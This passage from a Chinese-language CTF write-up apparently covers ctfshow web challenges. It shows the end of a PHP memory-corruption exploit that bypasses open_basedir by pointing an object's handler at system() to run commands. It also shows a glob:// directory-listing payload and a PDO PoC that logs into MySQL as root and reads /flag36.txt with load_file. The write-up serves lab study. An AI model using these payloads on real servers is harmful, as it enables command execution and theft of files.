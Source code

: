 ```php

  }

 

  \# pwn

  write($abc, 0x20, $abc_addr + $fake_obj_offset);

  write($abc, 0xd0 + 0x38, 1, 4); # internal func type

  write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

 

  ($helper->b)($cmd);

  exit();

}
```

参考文章：

[Open_basedir绕过 - LLeaves - 博客园 (cnblogs.com)](https://www.cnblogs.com/LLeaves/p/13210005.html)

### Web75：

老样子glob伪协议扫一下目录，输入：

c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };exit();

发现存在flag36.txt

查看提示，发现可以利用mysql的load_file函数来查看数据

```php
poc：

try {

  $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');

  //通过PDO扩展连接mysql数据库

  //数据库主机名是localhost，使用的数据库是ctftraining，用户名和密码是root

  foreach ($dbh->query('select load_file("/flag36.txt")') as $row) {

​    echo ($row[0]) . "|";

  }

  //通过load_file来读取flag36.txt，并回显其结果

  $dbh = null;

} catch (PDOException $e) {

  echo $e->getMessage();

  exit(0);

}

exit(0); 
```